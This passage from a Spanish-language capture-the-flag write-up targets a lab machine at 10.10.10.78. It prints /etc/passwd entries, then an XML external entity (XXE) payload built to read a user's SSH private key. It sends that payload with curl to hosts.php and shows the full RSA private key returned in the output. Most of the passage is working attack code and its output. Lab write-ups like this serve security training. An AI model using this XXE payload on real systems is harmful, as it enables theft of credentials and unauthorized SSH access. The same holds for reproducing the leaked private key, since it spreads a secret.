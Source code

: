 ```bash
saned:x:119:127::/var/lib/saned:/bin/false     
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```

Aquí podemos ver los usuarios del sistema *florian* y *cliff*. Pensando un poco, tenemos usuarios del sistema, el puerto 22 abierto y podemos ver archivos de sistema; con eso vamos a tratar de obtener el archivo `id_rsa` de los usuarios para tratar de conectarnos a la máquina víctima por SSH sin proporcionar contraseña.

#### test.txt
```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo
    [<!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>
  <details>
      <subnet_mask>&xxe;</subnet_mask>
      <test></test>
  </details>
```

#### Ejecución
```bash
❯ curl -d @test.txt http://10.10.10.78/hosts.php

There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```
